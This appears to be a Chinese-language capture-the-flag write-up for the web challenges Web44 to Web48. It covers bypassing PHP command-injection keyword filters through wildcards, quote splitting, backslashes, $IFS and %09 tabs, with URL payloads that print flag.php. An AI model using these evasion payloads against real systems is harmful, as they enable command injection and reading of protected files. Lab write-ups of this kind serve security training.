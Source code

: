 

## Web44

比上一题多过滤了个flag

payload `?c=tac f*||` `?c=tac f''lag.php||` 

## Web45(空格替代)

过滤空格`$IFS|%09|tac${IFS}flag.txt|{cat,flag.php}|cat<flag.php`绕过

`/?c=tac$IFS$9f*.php||`  `/?c=tac$IFS*||` `/?c=tac%09f*||`

- `$IFS`：这是Bash shell中的一个特殊变量，代表内部字段分隔符（Internal Field Separator），通常用于分割字符串。默认情况下，它包含空格、制表符和换行符。

- `$9` 是一个特殊变量，用于表示传递给脚本的第九个参数。在 Unix 和类 Unix 操作系统中，shell 脚本可以接收命令行参数，这些参数在脚本中以 `$1`、`$2`、`$3` 等形式表示，其中 `$1` 是第一个参数，`$2` 是第二个参数，依此类推，直到 `$9` 表示第九个参数。

  例如，如果你有一个脚本 `script.sh`，并且在命令行中这样调用它：

  bash

  ```bash
  ./script.sh param1 param2 param3 param4 param5 param6 param7 param8 param9 param10
  ```

  在这个脚本内部，`$9` 的值将会是 `param9`，而 `$10` 的值将会是 `param10`。如果脚本被调用时传递的参数少于9个，`$9` 将会是空的。

这里$9想到于一个分隔符由于传参少于9个所以$9为空，也可以用其他代替,用于分隔$IFS和f

## Web46

题目过滤：preg_match("/\;|cat|flag| |[0-9]|\\$|\*/i", $c),新增$,*

思路：

- 绕过flag不能用*通配符的办法，只能找flag.php的替代，这里用fla''g.php类比web44
- 绕过替代空格选用Web45的方法即可{cat,fla''g.php}的方法不行，应该是因为 `''`的原因吧


payload:`/?c=tac<fla''g.php` `ca\t<fl\ag.php||`

大佬的payload: `/?c=tac%09fla?.php||`    //用`?`代替`*`,`?`和`*`都是通配符不过*匹配多个字符?匹配一个字符

## Web47

题目：过滤 `preg_match("/\;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail/i"`找个替代打印的就可以

payload `/?c=ca\t<fl\ag.php||` `nl%09fla?.php||`

## Web48

题目：新增过滤`preg_match("/\;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail|sed|cut|awk|strings|od|curl|\`/i"`

payload `/?c=ca\t<fl\ag.php||` `nl%09fla?.php||`

## Web49


[ERROR]: could not find driver